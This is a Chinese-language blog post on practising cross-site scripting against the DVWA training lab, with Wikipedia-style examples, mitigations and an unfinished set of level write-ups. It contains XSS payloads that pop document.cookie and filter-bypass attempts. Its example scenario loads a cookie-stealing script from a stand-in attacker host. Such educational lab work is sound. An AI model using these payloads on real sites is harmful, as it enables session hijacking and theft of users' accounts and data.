 ```yaml
---
layout:     post
title:      DVWA靶机练习之XSS
subtitle:   
date:       2019-12-08
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - web
    - XSS
    - ctf
---
```




## XSS是什么

XSS(cross-site-scripting) 即是跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。 



简洁点来说，XSS 就是利用了网站对用户输入没有过滤完全的漏洞，上传恶意代码到网站页面上，使得其他用户加载页面时执行攻击者的恶意代码，达到窃取用户敏感信息（如 cookie）的目的，根据种类不同，一般又分为 反射型 XSS 攻击，存储型 XSS 攻击，DOM 型 XSS 攻击



### Non-persistent (reflected)



反射型 XSS 攻击并不会将恶意脚本存储在服务端，需要用户在和后端交互时自己输入恶意的脚本，因此这种 XSS 攻击一般存在于钓鱼连接中，攻击者已经构造好一个包含恶意代码的链接，如果用户点击了这个链接，就会被窃取隐私信息，比如下面这个钓鱼链接就是个反射型 XSS 攻击脚本



```
http://bobssite.org/search?q=puppies<script>alert('document.cookie');</script>
```



### Persistent (or stored)



存储型 XSS 攻击是将恶意脚本植入服务器端，这样每一次用户访问一个正常的页面时，恶意的代码都会被自动渲染，如果不能及时发现的话会对网站造成很大的影响，假如在一个访问量很大的页面启用 XSS 攻击访问另外的一个网站，则会造成 Dos 攻击的效果，这种 XSS 一般存在于留言板之类的应用中



### DOM-based



DOM 型的 XSS 攻击不会将代码传到服务器端进行交互，所有的处理都由 JavaScript 完成，因此如果前端 JavaScript 没有对输入进行很好的过滤就会造成这种 XSS 攻击，一般 DOM 型的 XSS 攻击和反射型的 XSS 攻击最大的区别就是： DOM 型 XSS 是利用 JavaScript 的 `document.write` 和 `document.innerHTML` 等函数来进行 HTML 注入



## Wikipedia demo



这里是维基百科上关于 XSS 攻击的两个 demo ，包含持续性和非持续性两种例子



### Non-persistent



1. 爱丽丝经常访问由鲍勃（Bob）托管的特定网站。 Bob的网站允许 Alice 使用用户名/密码对登录并存储敏感数据，例如账单信息。 当用户登录时，浏览器会保留一个“授权 Cookie”，它看起来像一些垃圾字符，因此两台计算机（客户端和服务器）都具有她已登录的记录。
2. Mallory 注意到 Bob 的网站包含一个反射型 XSS 漏洞：
   1. 当她访问“搜索”页面时，她在搜索框中输入搜索词，然后单击“提交”按钮。 如果未找到任何结果，则该页面将显示她搜索的字词，后跟“未找到”字样，其网址为 http://bobssite.org/search?q=her%20search%20term
   2. 使用正常的搜索查询（例如单词“ puppies”），页面仅显示“找不到小狗”，而网址为“ http://bobssite.org/search?q=puppies”-这是完全正常的行为
   3. 但是，当她提交异常的搜索查询时，例如“ <script type ='application / javascript'> alert（'xss'）; </ script>”，
      1. 出现一个警告框（显示 “ xss” ）
      2. 该页面显示“未找到”，以及带有文本 “ xss” 的错误消息。
      3. 网址是 “ http://bobssite.org/search?q= <script％20type ='application / javascript'> alert（'xss'）; </ script> - 这是可利用的行为
3. Mallory制作了一个利用此漏洞的URL：
   1. 她制作了 URL  http://bobssite.org/search?q=puppies<script%20src=“ http://mallorysevilsite.com/authstealer.js”> </ script>。 她可以选择使用百分比编码来对 ASCII 字符进行编码，例如 http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22 ％3E％3C％2Fscript％3E，因此人类读者无法立即破译恶意 URL
   2. 她向鲍勃网站的一些毫无戒心的成员发送了一封电子邮件，说：“看看一些可爱的小狗！”
4. 爱丽丝得到了电子邮件。 她喜欢小狗，然后单击链接。 它转到 Bob 的网站进行搜索，未找到任何内容，并显示“未找到小狗”，但在这之间，脚本标签运行（在屏幕上不可见）并加载并运行 Mallory 的程序 authstealer.js（触发 XSS 攻击）， 爱丽丝并不知道。
5. authstealer.js 程序在Alice的浏览器中运行，就像它起源于Bob的网站一样。 它获取 Alice 的 Authorization Cookie 的副本，并将其发送到 Mallory 的服务器，Mallory 在该服务器上检索它。
6. Mallory 现在将 Alice 的授权 Cookie 放在自己的浏览器中，就好像是她自己的一样。 然后，她去了 Bob 的站点，现在以 Alice 的身份登录。
7. 现在她进入了，Mallory 转到网站的 Billing 部分，查找 Alice 的信用卡号并获取一个副本。 然后她去更改密码，以使爱丽丝什至无法登录。
8. 她决定更进一步，并向 Bob 自己发送类似的链接，从而获得 Bob 的网站管理员权限。



**防治措施：**

1. 搜索框对用户输入进行过滤，其中包括正确的编码检查
2. 服务器对错误的请求进行重定向
3. 服务器检测到同时登录就使会话无效
4. 服务器检测到同时在两个 ip 登录就使会话无效
5. 网站只展示银行卡最后几位数字
6. 在更改信息前让用户输入密码确认
7. cookie 中设置 `HttpOnly` 字样防止通过 JavaScript 访问



### Persistent



1. Mallory 在 Bob 的网站上获得了一个帐户
2. Mallory 发现 Bob 的网站包含一个存储型 XSS 漏洞。 如果转到“新闻”部分并发表评论，它将显示他输入的任何内容。 但是，如果注释文本中包含 HTML 标记，则标记将按原样显示，并且所有脚本标记都将运行
3. Mallory 在“新闻”部分阅读文章，并在“评论”部分底部写评论。 她在评论中插入了这段文字：我喜欢这个故事中的幼犬！ 他们是如此可爱！<script src =“ http://mallorysevilsite.com/authstealer.js”>
4. 当爱丽丝（或其他人）用评论加载页面时，马洛里的脚本标签运行并窃取爱丽丝的授权 cookie，然后将其发送到 Mallory 的秘密服务器进行收集
5. Mallory 现在可以劫持 Alice 的会话并假冒 Alice



**防治措施：**

1. 对用户的 HTML 标签进行过滤
2. 利用 token 技术，防止 CSRF 攻击



## DVWA 案例



### 低级



#### XSS(DOM)



低级案例通过 GET 方法将下拉框选中的内容发送给本页面，如果有 `default=` 字样的话就进行接下去的操作，没有对输入进行任何过滤，因此在浏览器地址栏我们可以构造出以下 payload 



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<script>alert(document.cookie);</script>
```



#### XSS(Reflected)



输入什么就返回什么，那我们也可以构造出一个 payload 来弹出 cookies



```
kevin<script>alert(document.cookie);</script>
```



#### XSS(Stored)



这是个留言本应用，经常会有存储型 XSS 漏洞，当存在这种漏洞时，如果有人恶意攻击了这个页面，那么随后访问的用户都会被利用，如果在页面中植入下面这个 payload，则后面访问的用户访问时都会弹出 cookies



```
Name: hacker
Message: jsfuck<script>alert(document.cookie);</script>
```



可以看到，植入代码之后，脚本就存储在了页面中，这是持久性的，只要管理员没有发现，就会一直有人受害

![book.jpg](https://i.loli.net/2019/12/12/GXIDYjpVePnZlBE.jpg)

### 中级



#### XSS(DOM)



中级的案例对 `<script` 标签做了过滤，因此我们可以选择绕过，浏览器对大小写是不敏感的，因此我们可以将 script 大写，像下面这样



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<Script>alert(document.cookie);</Script>
```



然而事实证明，这种方法并没有卵用，不能绕过，看了源码，后端用了 `stripos` 函数过滤，这个函数是不区分大小写的，因此大写对他没用，直接把 `script` 给过滤了，因此我们考虑一下用另外一种标签，开始想到的是图片标签，构造一个不存在的图片



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<img src=233 onload=alert(document.cookie); hidden="true"/>
```



但是也没啥用，因为后面 JavaScript 将内容写进了 `option` 标签里面，而 `option` 里面是不能放图片的，所以此路不通，那就再换一个思路，











#### XSS(Reflected)



#### XSS(Stored)





### 高级



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



### 不可能



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



## summary



永远不要相信用户的输入，不要被局限，万物皆可 XSS